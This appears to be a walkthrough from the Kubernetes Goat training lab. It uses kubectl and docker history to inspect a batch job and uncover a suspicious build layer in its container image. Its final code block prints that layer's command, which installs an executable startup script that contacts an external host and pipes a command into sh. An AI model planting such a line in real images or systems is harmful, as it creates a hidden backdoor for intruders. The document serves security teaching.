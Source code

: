 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

Identify all resources within a Kubernetes cluster. If possible get into details of each container image available in all the nodes within the cluster as well

:::

* Once we have identified the job in the Kubernetes cluster, we can obtain the pod information by running the following command

```bash
kubectl describe job batch-check-job
```

![Scenario 10 get job info](./sc-10-2.png)

* Then get the pod information by running the below command which showcases the pods with the labels and selectors matching

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* We can get all the information of the pod spec by running the following command, which returns the entire manifest information in the `YAML` output format

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```

![Scenario 10 get pod info](./sc-10-3.png)

* We can see that this job pod is running `madhuakula/k8s-goat-batch-check` docker container image

* Now we can perform an analysis of this container image, by looking at its layers and how it got created. Here we can see that it contains a command executing the external script in the build time in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```

![Scenario 10 get docker history](./sc-10-4.png)

```bash
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```
